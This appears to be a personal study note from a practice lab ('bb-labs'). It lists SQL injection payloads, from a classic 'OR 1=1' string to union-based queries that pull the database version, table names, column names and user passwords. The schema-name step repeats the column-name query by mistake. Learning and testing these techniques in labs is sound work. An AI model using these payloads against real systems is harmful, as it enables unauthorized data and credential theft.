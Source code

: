 
## SQL Injection Payloads : 

- Classic SQLi Payloads : 

	- **1' OR '1'='1
	- ![[{1E9AFC5D-ABC8-46E3-AD1C-0EB7A4F1B6DF}.png]]

	- **jeremy' union select null,null,null#
	- ![[{B3F99883-71EE-4B4B-AC84-BAD85A9E26EC}.png]]

	- Once you have this : 
		- *You can use `union` to extract information from the DB.

	1. **SQL version : 
		- `jeremy' union select null,null,version()#
		- ![[{97DA6F2F-B0B2-479F-BE77-9EA653AF2F56}.png]]
	2. **Get other table names : 
		- `jeremy' union select null,null,table_name from information_schema.tables#`
		-  ![[{45A3C4FF-CA58-420E-863B-E5DB77489685}.png]]
		- ![[{73A6E7E6-0E6A-41A8-A15C-7BF55B667EC4}.png]]
	3. **Get other column names : 
		- `jeremy' union select null,null,column_name from information_schema.columns#`
		- ![[{1EA249A9-0F9F-48FA-B90D-06A9DEAF433A}.png]]
		- ![[{4938031A-1BB8-42E4-B0C6-3D1C911AA74E}.png]]
	4. **Get other schema names : 
		-  `jeremy' union select null,null,column_name from information_schema.columns#`
		- ![[{B6C0C7AC-B7A1-4482-B80E-CE013D020E82}.png]]
	5. **Other variations of Union based payloads

		- `jeremy' union select null,null,database()#.
		
		- `jeremy' union select null,null,table_name from information_schema.tables WHERE table_schema='bb-labs'#`
			- ![[{D2A8AD43-ED68-4E17-8825-39ACAF1B69C1}.png]]
	6. **Get User password or in general if u want to get information from any tables : 

		- `jeremy' union select null,null,password from injection0x01#`
		- ![[{F7E9C2EE-C0A6-4DE2-8F79-62C5241F0D7D}.png]]
